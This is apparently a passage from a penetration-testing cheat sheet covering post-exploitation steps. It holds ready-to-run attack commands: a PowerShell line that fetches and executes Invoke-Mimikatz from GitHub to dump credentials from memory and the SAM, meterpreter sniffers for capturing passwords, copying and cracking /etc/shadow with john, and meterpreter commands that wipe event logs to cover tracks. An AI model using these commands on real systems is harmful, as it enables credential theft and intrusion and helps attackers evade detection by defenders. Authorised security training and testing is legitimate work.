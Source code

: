 *[Invoke-Mimikatz PS1:](https://book.hacktricks.xyz/windows/stealing-credentials#invoke-mimikatz)*

	IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/clymb3r/PowerShell/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1')
	Invoke-Mimikatz -DumpCreds #Dump creds from memory
	Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'

*TCP dump via meterpreter:*

	run packetrecorder -li
	run packetrecorder -i 1
	
*TCP dump in kali and sniff via meterpreter:*

	kali: sudo tcpdump -i wlan0 src port 80 or dst port 80 -w port-80.pcap
	kali: sudo tcpdump -i wlan0 -vvv -A | grep "GET"	#grep all GET from the wlan0 interface
	kali: sudo tcpdump -nX -r port-80.pcap			#Print the traffic in hex with ascii interpretation.
	kali: sudo tcpdump tcp -w tcp-traffic.pcap 		#Only record tcp-traffic
	kali meterpreter: use auxiliary/sniffer/psnuffle	sniff passwords and usernames from pop3, imap, ftp, and HTTP GET

*search files:*
	
	search -f config*
	search -f *.sql
	dir /s 	#recursive search
	.ssh:
	.bash_history
	
*sudo crack etc/shadow file:*

	sudo cp /etc/passwd /etc/shadow to kali
	sudo unshadow passwd shadow > hashroot.txt
	john --rules --wordlist=/usr/share/wordlists/rockyou.txt > hashroot.txt

*[Koadic C3 - JScript RAT:](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Post%20Exploitation%20Koadic.md)* - Windows post-exploitation rootkit similar to Meterpreter and Powershell Empire.
	
## 16. Persistence - Rootkit - Backdoor
[Persistence](https://sushant747.gitbooks.io/total-oscp-guide/persistence.html) | [Persistence w Metasploit on Windows 10](https://www.hackingarticles.in/multiple-ways-to-persistence-on-windows-10-with-metasploit/) | [PayloadsAllTheThings- Linux Persistence](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Persistence.md) | [PayloadsAllTheThings- Windows Persistence](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Persistence.md)
	
## 17. Cover Tracks 		*#lol illuminati-mode*
[Clean Up](https://sushant747.gitbooks.io/total-oscp-guide/content/clean_up.html) | [Covering Your Tracks By gimboyd](http://www.dankalia.com/tutor/01005/0100501003.htm)
	
	meterpreter> run clearlogs
	meterpreter> clearev
